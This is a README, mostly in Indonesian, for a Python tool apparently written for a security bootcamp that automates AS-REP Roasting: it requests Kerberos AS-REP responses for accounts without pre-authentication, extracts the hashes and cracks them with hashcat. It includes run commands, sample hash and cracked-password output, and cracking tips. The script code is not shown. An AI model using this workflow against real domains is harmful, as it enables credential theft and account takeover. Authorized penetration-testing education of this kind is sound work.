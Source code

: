 
# 🔐 AS-REP Roasting Full Chain

AS-REP Roasting adalah teknik serangan Kerberos yang memungkinkan attacker mendapatkan hash NTLM user **tanpa perlu login atau password**, selama user tersebut **tidak mengaktifkan pre-authentication**.

Script ini menjalankan seluruh proses roasting secara otomatis:
1. Kirim permintaan AS-REQ ke KDC
2. Ambil AS-REP response dari user yang vulnerable
3. Ekstrak hash
4. Crack hash menggunakan `hashcat`
5. Tampilkan hasilnya langsung

---

## 🚀 Fitur Utama

✅ Kompatibel dengan Impacket terbaru  
✅ Tidak memerlukan kredensial (pre-auth bypass)  
✅ Format hash langsung kompatibel dengan hashcat  
✅ Crack otomatis + tampilkan hasil (`--show`)  
✅ Output disimpan ke file `asrep_hashes.txt`  

---

## 📦 Kebutuhan Sistem

- Python 3.8+
- Hashcat

### 🛠️ Instalasi dengan Virtual Environment (Direkomendasikan):

```bash
# 1. Buat dan aktifkan virtual environment
python3 -m venv venv
source ./venv/bin/activate

# 2. Install dependensi
python3 -m pip install -r requirements.txt

# 3. Install hashcat jika belum tersedia
sudo apt install hashcat
```

---

## 📁 Struktur File biar lebih mudah, tapi kalau ingin custom juga bisa

```
.
├── KerberosBrute.py     # script utama
├── requirements.txt       # dependensi Python
├── userlist.txt           # daftar user target (1 per baris)
└── rockyou.txt            # wordlist untuk hashcat
```

---

## ✍️ Contoh Isi `userlist.txt`

```
admin
labuser
test123
```

---

## ▶️ Cara Menjalankan

```bash
python3 asrep_fullchain.py <DOMAIN> <KDC_IP> <USERLIST.TXT> <WORDLIST.TXT>
```

### Contoh:

```bash
python3 asrep_fullchain.py domain.local 192.168.1.10 userlist.txt rockyou.txt
```

---

## 📤 Output

### ✅ File Hash (asrep_hashes.txt)

```
$krb5asrep$23$admin@domain.local:4c40c57dbac79b3b...$a7ac...
```

### ✅ Password yang Berhasil Ditemukan

Setelah proses cracking selesai:

```
$krb5asrep$23$admin@domain.local:...:SuperSecret123
```

---

## 💡 Tips

- Coba wordlist lokal yang lebih spesifik dari target (nama, tanggal, pola umum).
- Jalankan di mesin dengan GPU agar cracking lebih cepat.
- Gunakan opsi tambahan `hashcat` jika perlu: `--status`, `--session`, dll.

---

## ❗ Legal Disclaimer

> 🛡️ This tool is for **educational purposes** and **authorized security testing only**.  
> Do **NOT** use against systems you don't own or don't have explicit permission to test.

---

## 👨‍💻 Credits

Script dibuat oleh hantiq untuk keperluan bootcamp & edukasi  
Menggunakan [Impacket](https://github.com/fortra/impacket) & [Hashcat](https://hashcat.net/hashcat/)
